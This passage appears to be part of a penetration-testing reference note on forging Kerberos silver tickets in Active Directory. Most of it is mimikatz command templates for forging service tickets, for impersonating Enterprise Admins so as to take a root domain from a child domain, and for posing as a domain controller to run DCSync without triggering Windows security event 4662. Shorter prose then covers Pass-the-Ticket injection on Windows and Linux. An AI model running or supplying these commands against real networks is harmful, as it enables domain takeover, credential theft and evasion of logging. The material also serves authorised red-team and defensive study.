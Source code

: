 ```
# Silver tickets the HOST and HTTP services are necessary and usually sufficient. Silver tickets for the WSMAN and/or RPCSS services may additionally be required.  
mimikatz.exe "kerberos::golden /user:<IMPERSONATED_USERNAME> /domain:<DOMAIN_FQDN> /sid:<DOMAIN_SID> /target:<TARGETED_COMPUTER_FQDN> [/rc4:<TARGETED_COMPUTER_ACCOUNT_NTLM_HASH> | /aes128:<TARGETED_COMPUTER_ACCOUNT_AES128_KEY> | /aes256:<TARGETED_COMPUTER_ACCOUNT_AES256_KEY>] /service:host /ptt" "exit"
mimikatz.exe "kerberos::golden /user:<IMPERSONATED_USERNAME> /domain:<DOMAIN_FQDN> /sid:<DOMAIN_SID> /target:<TARGETED_COMPUTER_FQDN> [/rc4:<TARGETED_COMPUTER_ACCOUNT_NTLM_HASH> | /aes128:<TARGETED_COMPUTER_ACCOUNT_AES128_KEY> | /aes256:<TARGETED_COMPUTER_ACCOUNT_AES256_KEY>] /service:http /ptt" "exit"

# Impersonates an user member of the "Enterprise Admins" group of the root domain in order to compromise the root domain from any trusted child domain.
# For more information, refer to the "Active Directory - Trusts hopping" note.
mimikatz.exe "kerberos::golden /user:<IMPERSONATED_USERNAME> /domain:<DOMAIN_FQDN> /sid:<DOMAIN_SID> /target:<TARGETED_SERVER_FQDN> [/rc4:<TARGETED_SERVICE_ACCOUNT_NTLM_HASH> | /aes128:<TARGETED_SERVICE_ACCOUNT_AES128_KEY> | /aes256:<TARGETED_SERVICE_ACCOUNT_AES256_KEY>] /service:<TARGETED_SERVICE_NAME> /sids:"S-1-5-21-<ROOT_DOMAIN_IDENTIFIER-AUTHORITY>-519" /ptt" "exit"

# Impersonates a Domain Controller in order to conduct DCSync attack without generating Windows "Security" events ("Event 4662: An operation was performed on an object").
# The <IMPERSONATED_DC_RID> can be obtained using:
(New-Object System.Security.Principal.NTAccount("<DOMAIN>","<DC_MACHINE_ACCOUNT")).Translate([System.Security.Principal.SecurityIdentifier]).Value
# For more information, refer to the "Active Directory - ntds.dit dumping" note.
mimikatz.exe "kerberos::golden /user:<IMPERSONATED_DC_MACHINE_ACCOUNT> /domain:<DOMAIN_FQDN> /sid::<DOMAIN_SID> /target:<TARGETED_DC_FQDN> [/rc4:<TARGETED_DC_MACHINE_ACCOUNT_NTLM_HASH> | /aes128:<TARGETED_DC_MACHINE_ACCOUNT_AES128_KEY> | /aes256:<TARGETED_DC_MACHINE_ACCOUNT_AES256_KEY>] /service:ldap /id:<IMPERSONATED_DC_RID> /groups:516 /sids:S-1-5-21-<DOMAIN_IDENTIFIER-AUTHORITY>-516,S-1-5-9" /ptt" "exit"
```

### Silver tickets usage (Pass-the-Ticket)

On Windows, `silver tickets` generated using `mimikatz` will be automatically
injected in the current logon session if the `/ptt` option is specified.
Otherwise, an exported `silver ticket` can be injected using
`mimikatz.exe "kerberos::ptt <TICKET_FILE_PATH>` for example.

On Linux, `silver tickets` generated by `ticketer.py`, in the `credential
cache (ccache)` format, can be exported in the `KRB5CCNAME` environment
variable for further use through tools supporting the `Kerberos` protocol,
such as others `Impacket` Python utilities. Note that `impackets` utilities can
only make use of a single `Kerberos tickets` at a time, which limits the
possible usage of the utilities with `silver tickets`.

Refer to the `[ActiveDirectory] Kerberos tickets usage` for more information on
techniques and tools to leverage `silver tickets`.

--------------------------------------------------------------------------------

### References
